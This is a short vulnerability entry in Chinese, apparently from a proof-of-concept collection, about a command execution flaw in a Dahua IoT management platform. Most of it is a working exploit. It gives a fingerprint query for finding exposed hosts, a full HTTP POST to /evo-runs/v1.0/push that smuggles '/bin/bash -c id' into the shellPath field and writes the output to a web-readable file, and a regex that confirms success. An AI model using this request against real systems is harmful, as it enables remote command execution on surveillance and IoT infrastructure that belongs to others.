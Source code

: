 # dahua智能物联网综合管理平台push命令执行漏洞

## 漏洞特征

body="static/qwebchannel.js" && body="/*客户端会小于800*/"

## POC

```
POST /evo-runs/v1.0/push HTTP/1.1
Content-Type: application/json
X-Subject-Headerflag: ADAPT

{
    "method": "agent.ossm.mapping.config",
    "info": {
        "configure": "xxx",
        "filePath": "xxx",
        "paramMap": {
            "shellPath": "/bin/bash -c id>/opt/evoWpms/static/xxx.txt",
            "filePath": "xxx"
        },
        "requestIp": ""
    }
}
```

## 响应特征

```
200

(?=.*?success)(?=.*?true).*?$
```



## 文件定位

/static/xxx.txt